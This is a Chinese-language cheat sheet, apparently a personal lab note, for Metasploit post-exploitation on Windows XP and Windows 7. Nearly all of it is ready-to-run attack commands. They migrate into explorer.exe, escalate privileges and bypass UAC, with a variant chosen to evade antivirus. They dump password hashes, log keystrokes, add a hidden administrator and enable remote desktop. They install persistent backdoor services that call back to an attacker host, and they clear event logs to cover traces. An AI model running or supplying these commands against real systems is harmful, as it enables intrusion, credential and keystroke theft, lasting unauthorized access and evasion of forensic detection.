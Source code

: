 # kali-msf后渗透与持久化


## 持久化，后渗透
* 上述步骤得到session后，如果目标exe关闭了，会导致会话丢失，所以要注入到一个运行时间更久的程序中
```
meterpreter > run migrate -n explorer.exe
```
* run checkvm 检测是否是虚拟机
* background 当前会话退到后台
* download 下载目标机的文件
* upload 上传文件到目标机
* getsystem 尝试获取system用户权限
* getuid 获取当前用户的权限信息
* shell 进入windows shell交互模式
* ps 查看目标机所有进程信息
* execute -H -f xxx.exe
* run metsvc 以系统服务形式安装:在目标主机的31337端口开启监听,使用metsvc.exe安装metsvc-server.exe服务,运行时加载metsrv.dll
* run windows/gather/smart_hashdump  dump用户口令hash
* 键盘记录器功能keyscan
```
命令：
keyscan_start   开启记录目标主机的键盘输入
keyscan_dump   输出截获到的目标键盘输入字符信息
keyscan_stop     停止键盘记录
```

### 增加windows 用户
```
net user test test /add  #用户名、密码都是test
net user test #查看test用户的信息
net localgroup administrators test /add #添加为管理员组
reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f  #xp,2003直接开启3389，不用重启，如果xp用户正在登陆中，登陆3389用户那边会弹窗
```
* 注：使用meterpreter只需要下面的命令
```
>run  getgui  -e   //开启目标主机远程桌面
>run getgui -u test -p test //添加远程用户
```

### xp实验顺序
```
meterpreter > run migrate -n explorer.exe
>getsystem
>getuid
>run metsvc //安装服务,安装的服务如何使用，见下文
>run  getgui  -e   //开启目标主机远程桌面
>run getgui -u test -p test //添加远程用户
#rdesktop  -u  test  -p  test  192.168.10.128:3389 //使用kali的命令连接远程桌面
>clearev  ///清除日志

>run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__xxx.rc #清除痕迹,关闭服务,删除添加账号，如果有必要
```


从armitage中学来的,持久化攻击
```
msf> use exploit/windows/local/persistence
>set TARGET 0 #0表示windows
>set LHOST 192.168.10.131
>set LPORT 23198
>set SESSION 1
>set ExitOnSession false
>set STARTUP SYSTEM
>set DELAY 10
>set DisablePayloadHandler true
>exploit -j    #-j表示runing as background job
```
测试中，只要armitage没有关闭，不论重启多少次，都会建立session

### win7实验顺序
```
meterpreter > run migrate -n explorer.exe
>run metsvc -A//安装服务,普通用户可以安装成功，安装的服务如何使用，TODO
>getsystem //提示失败了，咋办？使用local exploit提权
>getuid
>run  getgui  -e   //开启目标主机远程桌面
>run getgui -u test -p test //添加远程用户,此时3389端口还没通，需要system用户
#rdesktop  -u  test  -p  test  192.168.10.128:3389 //使用kali的命令连接远程桌面
>clearev  ///清除日志

>run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__xxx.rc #清除痕迹,关闭服务,删除添加账号，如果有必要

```

### win7 本地提权
在已有的会话中
```
>background
msf>use exploit/windows/local/bypassuac
>set SESSION 1
>show options //确认所有项目都配置好了
>run
//成功后，会返回新的会话
>getuid
>getsystem 即可成功
```
* 提权后建立账号、远程桌面等

使用bypassuac模块时一些注意事项：

使用bypassuac模块进行提权时，系统当前用户必须在管理员组，而且用户账户控制程序UAC设置为默认，即“仅在程序试图更改我的计算机时通知我”。
Bypassuac模块运行时会在目标机上创建多个文件，会被杀毒软件识别。exploit/windows/local/bypassuac_injection模块直接运行在内存中的反射DLL中，所以它不触碰硬盘，可以最大限度地降低被杀毒软件检测到的概率。
Metasploit框架攻击目前没有针对Windows 8的模块

## 键盘记录

```
msf> use post/windows/capture/keylog_recorder
>set INTERVAL 5
>set LOCKSCREEN false
>set CAPTURE_TYPE explorer
>set SESSION 4  #根据实际情况调整
>set MIGRATE true
>set ShowKeystrokes true
>run -j
```

## 使用armitage
1. 添加hosts
2. scan
3. find attack  #注：这个并不是百分百靠谱
4. attack
5. 得到session